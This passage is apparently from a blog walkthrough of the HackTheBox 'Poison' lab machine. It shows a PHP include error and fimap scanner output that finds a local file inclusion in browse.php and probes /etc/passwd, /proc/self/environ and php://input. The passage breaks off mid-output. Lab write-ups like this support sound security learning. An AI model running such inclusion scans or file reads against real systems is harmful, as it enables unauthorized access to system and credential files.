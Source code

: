 <img class="alignnone wp-image-33 size-full" src="http://offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png" alt="poison port 80" width="916" height="331" />I entered testscript.php in the field and i got an error:
<pre> <b>Warning</b>: include(testscript.php): failed to open stream: No such file or directory in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b>

 <b>Warning</b>: include(): Failed opening 'testscript.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b></pre>
Now to search for possible LFI
<pre>[root:~/Desktop/poison]# fimap -u "http://10.10.10.84/browse.php?file=" [2/1957]

fimap v.1.00_svn (My life for Aiur) 

:: Automatic LFI/RFI scanner and exploiter 

:: by Iman Karim (fimap.dev@gmail.com)

SingleScan is testing URL: 'http://10.10.10.84/browse.php?file='

[14:53:52] [OUT] Inspecting URL 'http://10.10.10.84/browse.php?file='...

[14:53:52] [INFO] Fiddling around with URL...

[14:53:52] [OUT] [PHP] Possible file inclusion found! -&gt; 'http://10.10.10.84/browse.php?file=z2hu63pz' with Parameter 'file'.

[14:53:52] [OUT] [PHP] Identifying Vulnerability 'http://10.10.10.84/browse.php?file=' with Parameter 'file'...

[14:53:53] [INFO] Scriptpath received: '/usr/local/www/apache24/data'

[14:53:53] [INFO] Operating System is 'Unix-Like'.

[14:53:53] [INFO] Testing file '/etc/passwd'...

[14:53:53] [INFO] Testing file '/proc/self/environ'...

[14:53:53] [INFO] Testing file 'php://input'...

....

....

########################################################

#[1] Possible PHP-File Inclusion #

########################################################

#::REQUEST #

# [URL] http://10.10.10.84/browse.php?file= #

# [HEAD SENT] #

#::VULN INFO #

# [GET PARAM] file #
